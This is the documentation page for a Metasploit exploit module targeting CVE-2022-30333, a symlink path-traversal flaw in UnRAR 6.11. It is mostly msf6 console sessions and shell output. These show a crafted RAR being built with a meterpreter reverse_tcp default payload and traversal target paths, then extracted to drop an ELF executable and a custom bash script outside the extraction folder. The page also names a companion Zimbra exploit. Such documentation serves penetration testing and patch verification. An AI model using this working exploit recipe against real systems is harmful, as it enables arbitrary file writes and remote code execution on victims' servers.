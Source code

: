 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in UnRAR 6.11 and earlier (open source version 6.1.6 and earlier). You can get the vulnerable versions here:

* [Vulnerable unRAR version](https://www.rarlab.com/rar/rarlinux-x64-611.tar.gz)
* [Github commit](https://github.com/pmachapman/unrar/commit/22b52431a0581ab5d687747b65662f825ec03946)

This module creates a generic RAR file containing whatever `PAYLOAD` the user configured.

## Verification Steps

To generate the .rar file:

```
msf6 > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set RHOSTS 10.0.0.154
RHOSTS => 10.0.0.154
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../tmp/docstest.txt
TARGET_PATH => ../../../../../../tmp/docstest.txt
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Target filename: ../../../../../../tmp/docstest.txt
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
```

Then, with a vulnerable versions of UnRAR (see the link above), extract it:

```
ron@fedora ~/shared/analysis/zimbra-unrar/rar $ ./unrar x -o+ ~/.msf4/local/payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal

Extracting from /home/ron/.msf4/local/payload.rar

Extracting  hhgdzigwkgv                                               OK 
Extracting  hhgdzigwkgv                                               OK 
All OK
ron@fedora ~/shared/analysis/zimbra-unrar/rar $ ls -l hhgdzigwkgv 
lrwxrwxrwx. 1 ron games 34 Jul 27 13:04 hhgdzigwkgv -> ../../../../../../tmp/docstest.txt

ron@fedora ~/shared/analysis/zimbra-unrar/rar $ file /tmp/docstest.txt
/tmp/docstest.txt: data
```

## Options

### `FILENAME`

The filename to generate, typically it's `payload.rar` and that works fine.

### `TARGET_PATH`

The path, including traversal characters (`../`) and the filename. The slashes' direction doesn't matter, that gets fixed in the module.

### `SYMLINK_FILENAME`

If set, use a specific filename for the symlink inside the RAR file - default (random) is almost always best.

### `CUSTOM_PAYLOAD`

If set, instead of encoding the configured payload, encode data from the given filename.

## Scenarios

This is a pretty generic exploit that can be used against any software with a bad version of UnRAR.

We also built a specific exploit for Zimbra - `exploit/linux/http/zimbra_unrar_cve_2022_30333`.

### Built-in payload

```
msf6 > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../../../tmp/evil.bin
TARGET_PATH => ../../../../../../../../tmp/evil.bin
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Target filename: ../../../../../../../../tmp/evil.bin
[*] Encoding configured payload
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
```

Then:

```
ron@fedora ~/.msf4/local $ ~/tools/unrar/unrar x -o+ ./payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from ./payload.rar

Extracting  xkmcxqotn                                                 OK 
Extracting  xkmcxqotn                                                 OK 
All OK
ron@fedora ~/.msf4/local $ file /tmp/evil.bin
/tmp/evil.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

### Custom payload

```
msf6 > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../../../tmp/evil.sh
TARGET_PATH => ../../../../../../../../tmp/evil.sh
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > echo -ne "#!/bin/bash\nwhoami\n" > /tmp/test.sh
[*] exec: echo -ne "#!/bin/bash\nwhoami\n" > /tmp/test.sh
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set CUSTOM_PAYLOAD /tmp/test.sh
CUSTOM_PAYLOAD => /tmp/test.sh
```

Then:

```
ron@fedora ~/.msf4/local $ ~/tools/unrar/unrar x -o+ ./payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from ./payload.rar

Extracting  jwbhkf                                                    OK 
Extracting  jwbhkf                                                    OK 
All OK
ron@fedora ~/.msf4/local $ bash /tmp/evil.sh
ron
/tmp/evil.sh: line 4: $'\177P\336': command not found
[...]
```

(The errors at the bottom are because we append random junk to the end for padding)


